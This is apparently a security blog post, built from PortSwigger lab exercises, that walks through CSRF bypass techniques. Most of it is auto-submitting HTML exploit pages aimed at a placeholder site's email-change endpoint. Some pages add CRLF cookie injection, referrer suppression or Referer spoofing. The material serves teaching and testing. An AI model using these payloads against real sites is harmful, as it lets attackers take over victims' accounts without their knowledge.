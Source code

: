 ```yaml
---
layout: post
title:  "CSRF Attacks"
author: erik
categories: [ Web ]
image: https://user-images.githubusercontent.com/47476901/159375082-f0ca6711-c380-41c8-b82d-9e1515ff729e.png
beforetoc: ""
toc: false
tags: [ Web, Bug Bounty, Payloads ]
---
```

CSRF attacks (Cross-site request forgery) is a type of malicious exploit that aims to perform unauthorized operations that will be executed by a user that the website trusts.

# Table of Contents
1. [CSRF vulnerability without defenses](#CSRFwithoutDefenses)
2. [Token validation depends on request method](#CSRFinGET)
3. [Token validation depends on token presence](#CSRFonPresence)
4. [The CSRF token is not bound to the user's session](#CSRFnotBound)<br>
   4.1. [Same token between users](#SametokenUsers)<br>
   4.2. [Token not linked to the session](#CSRFnotBoundSession)
5. [The token is duplicated in the cookie](#TokenDuplicatedCookie)
6. [CSRF without referrer](#CSRFwithoutReferrer)
7. [Broken Referer Validation](#CSRFRefererBroken)

---

### CSRF vulnerability without defenses <a name="CSRFwithoutDefenses"></a>
**CSRF basic mail**<br>
It makes a request to the endpoint that changes the email and javascript confirms the request, which will change the mail just by visiting the page.

Code from https://web-attacker.com/malicioso.html

```html
<html>
	<body>
		<form action="https://vulnerable-web.com/email/change" method="POST">
			<input type="hidden" name="email" value="pwned@gmail.com" />
		</form>
		<script> document.forms[0].submit(); </script>
	</body>
</html>
```
---
### CSRF where token validation depends on request method <a name="CSRFinGET"></a>
Depending on the request method, it can be done with GET
```html
<img src="https://vulnerable-web.com/my-account/change-email?email=pwned@gmail.com"/>
```
---
### CSRF where token validation depends on the presence of the token <a name="CSRFonPresence"></a>
It does not verify the CSRF token, it is removed and bypassed.

```html
<html>
	<body>
		<form action="https://vulnerable-web.com/email/change" method="POST">
			<input type="hidden" name="email" value="pwned@gmail.com" />
             <input type="hidden"  value="csrf" />
		</form>
		<script> document.forms[0].submit(); </script>
	</body>
</html>
```
---
### CSRF token is not bound to user session <a name="CSRFnotBound"></a>
**Using the same token in both users**<br>
We can use the same CSRF Token in one user than in another, thanks to the fact that the token is not linked to the user's session <a name="SametokenUsers"></a><br>
My token: U6vJiRteqjSX46XRk57k6saqolEcdDvQ works for other users too.
```html
<html>
	<body>
		<form action="https://vulnerable-web.com/email/change" method="POST">
			<input type="hidden" name="email" value="pwned@gmail.com" />
                        <input type="hidden" name="csrf" value="<csrf>"  />
		</form>
		<script> document.forms[0].submit(); </script>
	</body>
</html>
```
**The CSRF token is not bound to the session** <a name="CSRFnotBoundSession"></a><br>
So the same csrf token and the same csrf key could be used in one account as in another to change the email
```html
<html>
  <body>
    <form action="https://vulnerable-web.com/email/change" method="POST">
      <input type="hidden" name="email" value="pwned@gmail.com" /> 
      <input type="hidden" name="csrf" value="<csrf>" />
      <input type="submit" value="Submit request" />    </form>
  <img src="https://vulnerable-web.com/?search=test%0d%0aSet-Cookie:%20csrfKey=<key>" onerror="document.forms[0].submit()">

  </body>
</html>
```

---

### The CSRF token is simply duplicated into a cookie <a name="TokenDuplicatedCookie"></a>
The token is validated in the cookie, we can make the user create his own csrf token which we indicate.

![cookieToken](https://user-images.githubusercontent.com/47476901/159374578-694ad92d-dc4c-43c5-b169-a32c28eebf3f.png)

Since the token was validated in the cookie, we can send the request to change the mail.

```html
<html>
    <body>
        <form action="https://vulnerable-web.com/email/change" method="POST" >
            <input type="hidden" name="email" value="pwned@gmail.com">
            <input type="hidden" name="csrf" value="31415926535897932384626433832795028841971">
        </form>
		
        <img src="https://vulnerable-web.com/?search=hat%0d%0aSet-Cookie:%20csrf=31415926535897932384626433832795028841971" onerror="document.forms[0].submit()">
    </body>
</html>
```


---
### CSRF without referrer <a name="CSRFwithoutReferrer"></a>
We indicate that the Referer does not exist in the CSRF exploit using the meta tag.



```html
<html>
  <head> 
     <meta name="referrer" content="no-referrer">
  </head> 
<body> 
   <form action="https://vulnerable-web.com/email/change" method="POST"> 
   <input type="hidden" name="email" value="pwned@gmail.com" />
   <input type="submit"/>
</form> 
   <script>document.forms[0].submit();</script>
</body>
</html>
```


---
### CSRF with broken Referer validation <a name="CSRFRefererBroken"></a>

The page validates the referrer when we want to change mail, **it is determined if the referrer includes the domain of the origin page.**
By modifying the referer with javascript we can evade this validation and be able to exploit the CSRF.

**Modify the Referer:**
 - Using this javascript function `history.pushState()` that adds an entry to the browser's session history stack.
```html
<script>history.pushState("", "", "/?vulnerable-web.com")</script>
```
- Referer validation accepts any header that contains the expected domain somewhere in the chain
```html
Referer: https://web-attacker.com/?vulnerable-web.com
```

**Referrer-Policy**
- Many browsers now remove the query string from the Referrer header by default as a security measure. To override this behavior and ensure that the full URL is included in the request.
- We have to add in the header "Referrer-Policy: unsafe-url"

```html
<meta name="referrer" content="unsafe-url" />
```

```html
<html>
   <head>
      <meta name="referrer" content="unsafe-url" />
   </head>
   <body>
      <script>
         history.pushState("", "", "/?vulnerable-web.com")  
      </script>
      <form action="https://vulnerable-web.com/email/change" method="POST">
         <input type="hidden" name="email" value="pwned@gmail.com" />
         <input type="submit" value="Submit request" />
      </form>
      <script>document.forms[0].submit();</script>
   </body>
</html>
```

---

Source Labs:
- [Portswigger Labs](https://portswigger.net/web-security)

